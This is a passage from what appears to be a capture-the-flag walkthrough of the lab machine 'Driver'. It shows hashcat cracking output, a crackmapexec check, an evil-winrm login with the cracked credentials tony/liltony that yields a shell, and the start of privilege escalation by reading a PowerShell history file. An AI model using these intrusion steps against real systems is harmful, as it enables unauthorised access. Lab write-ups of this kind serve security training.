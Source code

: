 ```shell
Rejected.........: 0/98304 (0.00%)                                                                                                                                                                                                            
Restore.Point....: 0/14344384 (0.00%)                                                                                                                                                                                                         
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1                                                                                                                                                                                         
Candidate.Engine.: Device Generator                                                                                                                                                                                                           
Candidates.#1....: 123456 -> Dominic1                                                                                                                                                
```

Let's use `crackmapexec` and see what we can find.

![crackmapexe](5.png)

We've successfully authenticated to SMB but we don't have any permission over the shares.

Next thing is `winrm` and `crackmapexec` showed us `Pwned` which means we can login via `winrm` and get a shell.

```shell
$ evil-winrm -i driver.htb -u tony -p liltony
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

Great! We got a shell.

## **Privilege Escalation**

Checking powershell history file we find the following:

```shell
*Evil-WinRM* PS C:\Users\tony\appdata\roaming\microsoft\windows\powershell\psreadline> cat ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1

```
